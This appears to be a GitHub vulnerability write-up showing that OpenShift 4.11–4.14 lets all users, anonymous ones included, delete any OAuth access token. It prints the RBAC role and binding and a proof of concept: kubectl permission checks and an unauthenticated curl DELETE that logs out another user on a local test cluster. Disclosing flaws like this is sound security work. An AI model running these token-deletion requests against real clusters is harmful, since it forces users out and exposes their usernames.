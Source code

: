 # openshift-oauthaccesstokens
## Description
In the current version of Openshift, 4.14, and back to at least 4.11, *all* users, including `system:anonymous `get the permission to delete any instance of the resource `oauthaccesstokens`. This allows any user that can list the resource `oauthaccesstokens` to force logout all other users, which can lead to a Denial of Service. 

Since the user `system:anonymous`, by default, also gets the permission to delete `oauthaccesstokens`, if the kubernetes API is publicly exposed, anyone could force logout users on the cluster, however, exploitation is less viable here since `system:anonymous` cannot list `oauthaccesstokens`.

Successfully deleting an `oauthaccesstoken` through the kubernetes API also leaks the username for whom the `oauthaccesstoken` was.

This permission is given to all users through the `clusterrole` `system:oauth-token-deleter`:
```powershell
PS > kubectl get clusterroles system:oauth-token-deleter -oyaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  annotations:
    rbac.authorization.kubernetes.io/autoupdate: "true"
  creationTimestamp: "2023-11-22T01:36:07Z"
  name: system:oauth-token-deleter
  resourceVersion: "8425"
  uid: 0fd49273-2c6b-4a0a-a8ab-735be5b01f2e
rules:
- apiGroups:
  - ""
  - oauth.openshift.io
  resources:
  - oauthaccesstokens
  - oauthauthorizetokens
  verbs:
  - delete
```

Which in turn is bound to `system:authenticated` and `system:unauthenticated` through the `clusterrolebinding` `system:oauth-token-deleters` : 

```powershell
PS > kubectl get clusterrolebinding system:oauth-token-deleters -oyaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  annotations:
    rbac.authorization.kubernetes.io/autoupdate: "true"
  creationTimestamp: "2023-11-22T01:36:08Z"
  name: system:oauth-token-deleters
  resourceVersion: "8477"
  uid: 6cbb646c-2836-4e7e-a08a-551c093a268e
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: system:oauth-token-deleter
subjects:
- apiGroup: rbac.authorization.k8s.io
  kind: Group
  name: system:authenticated
- apiGroup: rbac.authorization.k8s.io
  kind: Group
  name: system:unauthenticated
```

From a security perspective, by default, it should not be possible for any user to delete the `oauthaccesstoken` of another user.
It should definitely not be the default for e.g. `system:anonymous` or `system:unauthenticated` to have write access to resources, especially to delete any `oauthaccesstoken`.

This behavior seems to be correctly implemented through the clusterresource `useroauthaccesstokens` where you can't see or delete the accesstokens for another user, nor can an unauthenticated user see delete the tokens.
## Tested versions
Tested on Openshift versions:
- 4.11 (https://www.redhat.com/en/interactive-labs/openshift)
- 4.12 (production clusters on openstack)
- 4.14 (local openshift cluster)
The proof of concept below works on all the above versions.

## Proof of Concept
All commands below were executed against a local deployment of Openshift:
```powershell
PS > curl https://api.crc.testing:6443/version -k -H "Authorization: Bearer $TOKEN"
{
  "major": "1",
  "minor": "27",
  "gitVersion": "v1.27.6+b49f9d1",
  "gitCommit": "f3ec0ed759cde48849b6e3117c091b7db90c95fa",
  "gitTreeState": "clean",
  "buildDate": "2023-11-08T18:57:38Z",
  "goVersion": "go1.20.10 X:strictfipsruntime",
  "compiler": "gc",
  "platform": "linux/amd64"
}
```

Using `kubectl` the `kubeadmin` user, as well as `system:anonymous`, as `system:unauthenticated` have the permission to delete `oauthaccesstokens`: 

```powershell
PS > oc login -u kubeadmin https://api.crc.testing:6443

PS > kubectl auth can-i delete oauthaccesstokens
Warning: resource 'oauthaccesstokens' is not namespace scoped in group 'oauth.openshift.io'

yes

PS > kubectl auth can-i delete oauthaccesstokens --as=system:unauthenticated
Warning: resource 'oauthaccesstokens' is not namespace scoped in group 'oauth.openshift.io'

yes

PS > kubectl auth can-i delete oauthaccesstokens --as=system:anonymous
yes
```

Using the kubernetes API, we can, without authentication, delete the `oauthaccesstoken` for e.g. `developer`:

```powershell
PS > kubectl get oauthaccesstokens
NAME                                                 USER NAME   CLIENT NAME                    CREATED   EXPIRES                         REDIRECT URI                                                    SCOPES
sha256~LR7jgWOXifItKnPJX0Z10vJTm-jco2Nn-jsA-hHId-0   kubeadmin   openshift-challenging-client   10m       2023-12-08 08:17:11 +0000 UTC   https://oauth-openshift.apps-crc.testing/oauth/token/implicit   user:full
sha256~VFpOILn8edFxQXqZX3LsYQuk69kO419VUUkD5E5qb4k   developer   openshift-challenging-client   10m       2023-12-08 08:17:12 +0000 UTC   https://oauth-openshift.apps-crc.testing/oauth/token/implicit   user:full

PS > curl https://api.crc.testing:6443/apis/oauth.openshift.io/v1/oauthaccesstokens/sha256~VFpOILn8edFxQXqZX3LsYQuk69kO419VUUkD5E5qb4k -XDELETE -k
{
  "kind": "OAuthAccessToken",
  "apiVersion": "oauth.openshift.io/v1",
  "metadata": {
    "name": "sha256~VFpOILn8edFxQXqZX3LsYQuk69kO419VUUkD5E5qb4k",
    "uid": "49eecfde-84c3-43bb-8e88-fedf3ccd4a6e",
    "resourceVersion": "35718",
    "creationTimestamp": "2023-12-07T08:17:12xZ",
    "managedFields": [
      {
        "manager": "oauth-server",
        "operation": "Update",
        "apiVersion": "oauth.openshift.io/v1",
        "time": "2023-12-07T08:17:12Z",
        "fieldsType": "FieldsV1",
        "fieldsV1": {
          "f:authorizeToken": {},
          "f:clientName": {},
          "f:expiresIn": {},
          "f:redirectURI": {},
          "f:scopes": {},
          "f:userName": {},
          "f:userUID": {}
        }
      }
    ]
  },
  "clientName": "openshift-challenging-client",
  "expiresIn": 86400,
  "scopes": [
    "user:full"
  ],
  "redirectURI": "https://oauth-openshift.apps-crc.testing/oauth/token/implicit",
  "userName": "developer",
  "userUID": "06ff3300-d689-4974-afae-68ea2d4a3921",
  "authorizeToken": "sha256~mIhDukLS7IIBdaSlyeCdCbga7mS2_WhArEdWgSuToVs"
}

PS > kubectl get oauthaccesstokens
NAME                                                 USER NAME   CLIENT NAME                    CREATED   EXPIRES                         REDIRECT URI                                                    SCOPES
sha256~LR7jgWOXifItKnPJX0Z10vJTm-jco2Nn-jsA-hHId-0   kubeadmin   openshift-challenging-client   11m       2023-12-08 08:17:11 +0000 UTC   https://oauth-openshift.apps-crc.testing/oauth/token/implicit   user:full
```





